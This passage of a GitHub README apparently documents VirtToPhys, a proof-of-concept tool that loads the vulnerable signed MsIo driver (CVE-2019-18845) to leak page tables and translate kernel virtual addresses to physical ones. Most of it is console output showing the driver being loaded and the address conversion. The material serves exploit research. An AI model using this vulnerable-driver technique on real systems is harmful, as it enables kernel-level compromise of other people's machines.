 ```
[?] Unloading hooks, please wait..
    |-> Wrote trace data to file
```

### VirtToPhys

VirtToPhys is a small POC to demonstrate how you can calculate the physical address for a kernel virtual address when exploiting driver bugs that allow you to map physical memory. VirtToPhys uses MsIo.sys, a WHQL signed driver that gives you colorful lights on your RAM (?lolwut), [CVE-2019-18845](https://github.com/active-labs/Advisories/blob/master/2019/ACTIVE-2019-012.md). Hat tips and full credits to [@UlfFrisk](https://twitter.com/UlfFrisk) for his very insightful [MemProcFS](https://github.com/ufrisk/MemProcFS) project and [@hFireF0X](https://twitter.com/hFireF0X) for [KDU](https://github.com/hfiref0x/KDU).

```
C:\> VirtToPhys.exe -l
 _   _ _      _ _____    ______ _
| | | (_)    | |_   _|   | ___ \ |
| | | |_ _ __| |_| | ___ | |_/ / |__  _   _ ___
| | | | | '__| __| |/ _ \|  __/| '_ \| | | / __|
\ \_/ / | |  | |_| | (_) | |   | | | | |_| \__ \
 \___/|_|_|   \__\_/\___/\_|   |_| |_|\__, |___/
                                       __/ |
                                      |___/

                                         ~b33f
[+] Running as Administrator
[>] Executing on x64
[?] Loading MsIo driver..
[*] Requesting privilege: SE_LOAD_DRIVER_PRIVILEGE
    |-> Success
[>] Driver Nt path: \??\C:\Windows\System32\MsIo64.sys
[>] Driver registration: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MsIoTest
[?] NtLoadDriver -> Success
[+] Driver load: OK

C:\> VirtToPhys.exe -v 0xffffd20fc9a5f440
 _   _ _      _ _____    ______ _
| | | (_)    | |_   _|   | ___ \ |
| | | |_ _ __| |_| | ___ | |_/ / |__  _   _ ___
| | | | | '__| __| |/ _ \|  __/| '_ \| | | / __|
\ \_/ / | |  | |_| | (_) | |   | | | | |_| \__ \
 \___/|_|_|   \__\_/\___/\_|   |_| |_|\__, |___/
                                       __/ |
                                      |___/

                                         ~b33f
[+] Running as Administrator
[>] Executing on x64
[*] MsIO driver handle: 604
[?] Leaking PML4..
[+] PML4 in lowstub --> 1AB000
[?] Converting VA -> PA
    |-> PhysAddress: 7E25F440

C:\> VirtToPhys.exe -u
 _   _ _      _ _____    ______ _
| | | (_)    | |_   _|   | ___ \ |
| | | |_ _ __| |_| | ___ | |_/ / |__  _   _ ___
| | | | | '__| __| |/ _ \|  __/| '_ \| | | / __|
\ \_/ / | |  | |_| | (_) | |   | | | | |_| \__ \
 \___/|_|_|   \__\_/\___/\_|   |_| |_|\__, |___/
                                       __/ |
                                      |___/
```